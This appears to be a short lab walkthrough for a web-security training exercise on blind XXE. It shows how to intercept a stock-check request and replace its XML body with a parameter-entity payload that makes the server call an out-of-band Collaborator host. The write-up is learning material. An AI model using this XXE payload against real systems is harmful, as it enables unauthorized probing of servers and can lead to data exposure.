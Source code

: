 # Lab: Blind XXE with out-of-band interaction via XML parameter entities

> Lab Objective: use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

- Check Stock for any product, then inspect the Request.

- You'll notice that the POST body is sent in an XML format.
  ![1st screenshot](./attachments/1.png)

- When trying to trigger an OUt-of-Band Interaction, you'll notice that XML External Entities are blocked.
  ![2nd screenshot](./attachments/2.png)

- But when using XML Parameter Entities, the interaction succeeded.
  ![3rd screenshot](./attachments/3.png)
  ![4th screenshot](./attachments/4.png)

- Intercept a Stock Check request and replace the POST Body with this payload, then forward the request.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [
    <!ENTITY % xxe SYSTEM "http://jtg3atru2fl3h3fm8kn43369n0tshi57.oastify.com">
    %xxe;
]>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

- The Lab is solved successfully.
  ![5th screenshot](./attachments/5.png)

---
